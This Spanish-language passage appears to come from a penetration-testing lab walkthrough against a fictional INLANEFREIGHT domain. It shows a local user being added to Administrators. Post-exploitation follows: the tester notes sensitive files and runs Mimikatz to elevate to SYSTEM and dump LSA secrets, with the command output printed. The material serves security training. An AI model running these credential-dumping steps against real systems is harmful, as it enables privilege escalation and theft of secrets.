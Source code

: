 Finalmente, para activar la tarea, crea un nuevo archivo .txt en el directorio `C:\Users\ilfserveradm\Documents`. Podemos verificar y ver que el usuario `ilfserveradm` fue agregado al grupo `Administrators`.



```r
C:\Users\ilfserveradm> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
ilfserveradm
INLANEFREIGHT\Domain Admins
The command completed successfully.
```

---

## Post-Exploitation/Pillaging

A continuación, realizaremos algunas actividades de post-explotación en el host MS01. Vemos un par de archivos interesantes en la raíz del disco c:\ llamados `budget_data.xlsx` y `Inlanefreight.kdbx` que valdría la pena revisar y potencialmente informar al cliente si no están en su ubicación prevista. Luego, podemos usar Mimikatz, elevar a un token `NT AUTHORITY\SYSTEM` y volcar secretos de LSA.



```r
c:\Users\ilfserveradm\Documents> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::secrets
Domain : ACADEMY-AEN-MS0
SysKey : 61b3d49a6205a1dedb14591c22d36afc
ERROR kuhl_m_lsadump_secretsOrCache ; kull_m_registry_RegOpenKeyEx (SECURITY) (0x00000005)

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

564     {0;000003e7} 1 D 30073          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;0136075a} 2 F 20322234    ACADEMY-AEN-MS0\ilfserveradm    S-1-5-21-1020326033-369054202-3290056218-1002   (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 20387820    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # lsadump::secrets
```